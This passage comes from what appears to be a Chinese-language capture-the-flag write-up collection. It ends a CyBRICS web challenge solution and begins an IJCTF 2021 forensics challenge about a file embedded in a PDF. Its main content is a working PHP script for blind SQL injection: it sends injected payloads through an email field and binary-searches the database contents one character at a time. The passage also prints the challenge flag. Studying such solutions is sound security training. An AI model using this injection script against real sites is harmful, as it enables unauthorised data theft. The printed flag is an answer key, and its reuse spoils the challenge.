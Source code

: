 ```php
));

for($count = 1; $count <= 100; $count++){
    $low = 32;
    $high = 126;
    while($low <= $high){
        $mid = (int)(($low + $high) / 2);
        $sql = "' or if((ascii(substr(({$statement}),{$count},1)) > {$mid}),1,cot(0)), NOW()) #";
        $response = $client->post($URL, array(
            'proxy' => array(
                'http' => '127.0.0.1:7890',
                'https' => '127.0.0.1:7890'
            ),
            'form_params' => array(
                "email" => $sql,
                "digest" => md5($sql)
            )
        ));
        $content = $response->getBody()->getContents();
        if(stristr($content, "cot")){
            $high = $mid - 1;
        }else{
            $low = $mid + 1;
        }
    }
    echo $count . PHP_EOL;
    $text .= chr((int)(($high + $low + 1) / 2));
    echo $text . PHP_EOL;
}
```

```flag
cybrics{1N53r7_0ld_900d_5ql}
```

### Forensic

#### [IJCTF 2021] Riddle Joker

> Joker has returned from his imprisonment. Rumour says that he's scheming a new evil operation by implanting several bombs at a local bank. Each of bomb has a tag information that might be a clue for finding Joker's secret.
>
> Author: `Avilia#1337`

将附件中的 PDF 文件用 010 Editor 打开，可以发现在 690 流的地方有一个嵌入文件。

```plain text
78 9C 0B F0 66 66 11 61 66 64 60 60 F0 6C FB 12
B4 5C 22 90 C5 04 C8 D6 00 62 0E 20 4E CB 49 4C
D7 2B A9 28 39 51 29 77 66 1E AF 6A DC E6 3D A7
E7 88 76 0A 88 AD FA 22 BA EC D9 FD D6 FB 79 75
91 1A BF 2A E6 3F 2F BF D0 D3 3C C3 AE 68 95 CD
DA 3B 8D 9F 5E 2E 6A 7F D7 7E FB 41 80 37 23 93
3D 33 2E B3 55 18 20 40 A1 61 4B 23 03 92 4D 5C
0C 0A 60 71 46 06 09 86 86 4B 0C 4B 7D 6A AF 33
A2 D3 01 DE AC 6C 10 35 8C 0C 51 40 3A 0A AC 03
00 B9 35 3B 19
```
